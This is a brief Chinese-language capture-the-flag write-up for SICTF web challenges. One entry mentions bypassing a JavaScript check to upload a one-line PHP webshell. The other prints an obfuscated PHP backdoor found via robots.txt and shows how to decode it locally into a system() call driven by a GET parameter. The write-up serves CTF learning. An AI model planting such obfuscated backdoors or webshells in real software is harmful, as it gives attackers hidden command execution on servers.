 
## SICTF

### WEB

#### Upl0ad

禁用js，上传一句话木马。

#### Sighin

F12提示robot和.txt，所以访问/robots.txt，发现 `Disallow: /wh3re_1s_thi5_fl4g.php`，访问 `/wh3re_1s_thi5_fl4g.php`

```
<?php
highlight_file(__FILE__);
error_reporting(0);
$s = "wKq=1MDcLg6yYsrnRYivbO7JoWQ9rBhCZuo4DlZOS7_I5+t=UKzp0hdV1FNL2EFd/nxam3cTbPARsw+8Eky5XUpfH0MeTQ3JXtkGf9qj_4NmlHi/SeIVaCAgxGj26vW8PBzu";
$a = $s[72] . $s[116] . $s[76] . $s[113] . $s[124] . $s[35] . $s[104] . $s[63] . $s[91] . $s[70] . $s[24] . $s[63] . $s[113];
$b = $s[38] . $s[123] . $s[115] . $s[89] . $s[96] . $s[60] . $s[75] . $s[108] . $s[32] . $s[107] . $s[37] . $s[131] . $s[38] . $s[25] . $s[75] . $s[100] . $s[63] . $s[68] . $s[57] . $s[11] . $s[70] . $s[77] . $s[3] . $s[3];
$c = $s[96] . $s[89] . $s[63] . $s[62] . $s[115] . $s[74] . $s[47] . $s[47];
$e = $payload = $s[115].$s[65].$s[86].$s[39].$s[70].$s[4].$s[108].$s[124].$s[26].$s[65].$s[16].$s[116].$s[115].$s[103].$s[98].$s[77].$s[92].$s[48].$s[12].$s[44].$s[115].$s[62].$s[58].$s[55].$s[92].$s[37].$s[55].$s[40].$s[116].$s[71].$s[16].$s[83].$s[92].$s[48].$s[75].$s[23].$s[5].$s[74].$s[47].$s[47];
$f = $a($b);
$g = $a($a($e));
$h = $s[17].$s[130].$s[106].$s[76].$s[113].$s[68].$s[75].$s[109].$s[55].$s[65].$s[26].$s[47];
$i = $a($a($h));
$i($f()[$a($c)][$g
```

将内容在本地php跑一遍，输出所有变量，并拼接出最后一句命令

```
<?php
highlight_file(__FILE__);
//error_reporting(0);
$s = "wKq=1MDcLg6yYsrnRYivbO7JoWQ9rBhCZuo4DlZOS7_I5+t=UKzp0hdV1FNL2EFd/nxam3cTbPARsw+8Eky5XUpfH0MeTQ3JXtkGf9qj_4NmlHi/SeIVaCAgxGj26vW8PBzu";
$a = $s[72] . $s[116] . $s[76] . $s[113] . $s[124] . $s[35] . $s[104] . $s[63] . $s[91] . $s[70] . $s[24] . $s[63] . $s[113];
$b = $s[38] . $s[123] . $s[115] . $s[89] . $s[96] . $s[60] . $s[75] . $s[108] . $s[32] . $s[107] . $s[37] . $s[131] . $s[38] . $s[25] . $s[75] . $s[100] . $s[63] . $s[68] . $s[57] . $s[11] . $s[70] . $s[77] . $s[3] . $s[3];
$c = $s[96] . $s[89] . $s[63] . $s[62] . $s[115] . $s[74] . $s[47] . $s[47];
$e = $payload = $s[115].$s[65].$s[86].$s[39].$s[70].$s[4].$s[108].$s[124].$s[26].$s[65].$s[16].$s[116].$s[115].$s[103].$s[98].$s[77].$s[92].$s[48].$s[12].$s[44].$s[115].$s[62].$s[58].$s[55].$s[92].$s[37].$s[55].$s[40].$s[116].$s[71].$s[16].$s[83].$s[92].$s[48].$s[75].$s[23].$s[5].$s[74].$s[47].$s[47];
$f = $a($b);
$g = $a($a($e));
$h = $s[17].$s[130].$s[106].$s[76].$s[113].$s[68].$s[75].$s[109].$s[55].$s[65].$s[26].$s[47];
$i = $a($a($h));
$i($f()[$a($c)][$g]);
//system(get_defined_vars()[base64_decode(X0dFVA==)][W3lc0me_t0_SICTF.2024]);
echo "<br>a = ".$a;
echo "<br>b = ".$b;
echo "<br>c = ".$c;
echo "<br>e = ".$e;
echo "<br>f = ".$f;
echo "<br>g = ".$g;
```